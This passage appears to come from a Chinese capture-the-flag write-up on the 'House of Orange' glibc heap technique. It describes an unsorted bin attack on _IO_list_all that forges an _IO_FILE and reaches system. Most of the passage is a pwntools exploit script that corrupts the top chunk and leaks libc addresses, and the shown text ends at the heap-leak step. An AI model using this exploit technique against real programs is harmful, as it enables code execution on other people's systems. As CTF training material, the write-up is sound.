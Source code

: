 我们通过unsorted bin attack写入了_IO_list_all，并且构造unsorted bin的size为0x61，且将这个bin构造成一个_IO_FILE的结构体，之后在通过一次malloc，系统会将这个bin放入相应的smallbin 0x60，即构造好了_chain，之后由于unsorted bin attack留下的错误，系统调用malloc_printerr去打印错误信息，并最后经过一系列函数使用了_IO_list_all，通过fp->_chain 到了我们在堆上布置好的_IO_FILE的结构体，通过一系列检测后最终调用我们的虚表函数，即system。
不过不知道为什么有时会失败。。

最终 `payload`
```python
#/usr/env/bin python
from pwn import *
 
context.binary = './houseoforange'
#context.log_level = 'debug'
 
io = process('./houseoforange')
elf = ELF('./houseoforange')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
 
def build(Length,Name,Price,Choice):
    io.recvuntil('Your choice : ')
    io.sendline(str(1))
    io.recvuntil('name :')
    io.sendline(str(Length))
    io.recvuntil('Name :')
    io.send(Name)
    io.recvuntil('Orange:')
    io.sendline(str(Price))
    io.recvuntil('Color of Orange:')
    io.sendline(str(Choice))
 
def see():
    io.recvuntil('Your choice : ')
    io.sendline(str(2))
 
def upgrade(Length,Name,Price,Choice):
    io.recvuntil('Your choice : ')
    io.sendline(str(3))
    io.recvuntil('name :')
    io.sendline(str(Length))
    io.recvuntil('Name:')
    io.send(Name)
    io.recvuntil('Orange: ')
    io.sendline(str(Price))
    io.recvuntil('Color of Orange: ')
    io.sendline(str(Choice))
 
#OverWrite TopChunk
build(0x80,'AAAA',1,1)
upgrade(0x100,'B'*0x80+p64(0)+p64(0x21)+p32(0x1)+p32(0x1f)+2*p64(0)+p64(0xf31),2,2)
 
#trigger TopChunk->unsorted bin 
build(0x1000,'CCCC',3,3)
 
#leak libc_base 
build(0x400,'x',4,4)
see()
io.recvuntil('Name of house : ')
libc_base = u64(io.recvuntil('\n',drop=True).ljust(0x8,"\x00"))-0x3c5178
system_addr = libc_base+libc.symbols['system']
log.info('system_addr:'+hex(system_addr))
IO_list_all = libc_base+libc.symbols['_IO_list_all']
log.info('_IO_list_all:'+hex(IO_list_all))
 
#leak heap_base
upgrade(0x400,'x'*0x10,5,5)
```